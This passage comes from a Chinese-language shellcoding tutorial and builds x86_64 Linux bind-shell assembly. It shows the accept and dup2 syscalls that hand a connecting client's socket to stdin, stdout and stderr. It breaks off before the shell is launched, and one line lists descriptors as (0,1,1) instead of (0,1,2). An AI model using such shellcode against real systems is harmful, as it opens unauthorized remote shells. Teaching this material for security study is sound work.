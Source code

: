 `accept`函数需要三个参数。第一个是`sockfd`，同样，它已经存储在 RDI 寄存器中；我们可以将第二个和第三个参数设置为零。让我们获取`accept`系统调用号：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep accept
```

上述命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00209.jpeg)

```
xor rax , rax
add rax, 43
xor rsi, rsi
xor rdx, rdx
syscall
```

`accept`函数的输出，即`clientfd`，将被存储在 RAX 寄存器中，所以让我们把它移到一个更安全的地方：

```
mov rbx, rax
```

执行`dup2`系统调用：

```
 dup2(clientfd, 0);
 dup2(clientfd, 1);
 dup2(clientfd, 2);
```

现在，我们将执行它三次，将我们的文件描述符复制到`stdin`，`stdout`和`stderr`，分别为（`0`，`1`，`1`）。

`dup2`系统调用需要两个参数。第一个参数是旧文件描述符，在我们的情况下是`clientfd`。第二个参数是我们的新文件描述符（`0`，`1`，`2`）。现在，让我们获取`dup2`系统调用号：

```
$ cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep dup2
```

上述命令的输出显示在以下截图中：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/pentest-shcd/img/00210.jpeg)

现在，让我们构建`dup2`系统调用：

```
mov rdi, rbx
xor rax,rax
add rax, 33
xor rsi, rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall

xor rax,rax
add rax, 33
inc rsi
syscall
```
